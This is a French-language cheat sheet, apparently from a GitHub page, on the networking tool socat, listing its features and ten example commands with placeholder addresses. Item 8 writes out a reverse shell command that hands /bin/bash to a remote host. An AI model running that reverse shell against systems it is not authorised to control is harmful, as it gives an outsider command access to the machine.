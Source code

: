 # Généralités
* Outil similaire à netcat avec plus de fonctionnalité
* Liste des fonctionnalité 
1. Connexions réseau avancées : Socat prend en charge une large gamme de protocoles réseau, notamment TCP, UDP, SCTP, SSL, IPv4, IPv6, Unix sockets, etc. Il peut établir des connexions entre des hôtes distants et gérer des communications complexes.
    
2. Redirection et transfert de ports : Comme Netcat, Socat peut être utilisé pour écouter, rediriger et transférer des ports sur un système. Il permet de créer des tunnels réseau, de rediriger le trafic vers des ports spécifiques, ou d'agir en tant que serveur proxy.
    
3. Conversion de protocoles : Socat peut convertir les données d'un protocole à un autre, par exemple, en convertissant des connexions TCP en connexions UDP ou vice versa. Cela permet de relier des systèmes utilisant des protocoles différents.
    
4. Manipulation de données : Socat offre des fonctionnalités avancées de manipulation de données, telles que la modification, le filtrage et le formatage des flux de données. Il permet de créer des pipelines de traitement de données réseau pour effectuer des opérations spécifiques.
    
5. Cryptage et sécurité : Socat prend en charge le chiffrement SSL/TLS pour sécuriser les communications réseau. Il peut être utilisé pour créer des connexions sécurisées et protéger la confidentialité des données.

# Socat CheatSheet
1. Créer une connexion TCP :
``socat TCP4:<adresse_IP>:<port>``

2. Créer une connexion UDP :
``socat UDP4:<adresse_IP>:<port>``

3. Ecouter un port en mode écoute :
``socat TCP4-LISTEN:<port>``

4. Envoyer un fichier via TCP :
``socat TCP4:<adresse_IP>:<port> < fichier``

5. Recevoir un fichier via TCP :
``socat TCP4-LISTEN:<port> > fichier``

6. Scanner un port TCP sur une adresse IP :
``socat -d -d TCP4:<adresse_IP>:<port>``

7. Scanner un port UDP sur une adresse IP :
``socat -d -d UDP4:<adresse_IP>:<port>``

8. Ouvrir un shell distant (reverse shell) :
``socat TCP4:<adresse_IP>:<port> EXEC:'/bin/bash'``

9. Transférer un port (port forwarding) :
``socat TCP4-LISTEN:<port_local>,reuseaddr,fork TCP4:<adresse_distante>:<port_destination>``

10. Utiliser le mode verbose (afficher les détails) :
``socat -d -d <options>``

Résumé des options :
- TCP4 : Utilise le protocole TCP IPv4.
- UDP4 : Utilise le protocole UDP IPv4.
- TCP4-LISTEN : Mode écoute pour TCP IPv4.
- -d : Mode debug (affiche les détails des connexions).
- EXEC : Exécute une commande spécifiée.
- reuseaddr : Permet la réutilisation de l'adresse IP lors du port forwarding.
- fork : Permet de gérer plusieurs connexions en mode écoute.

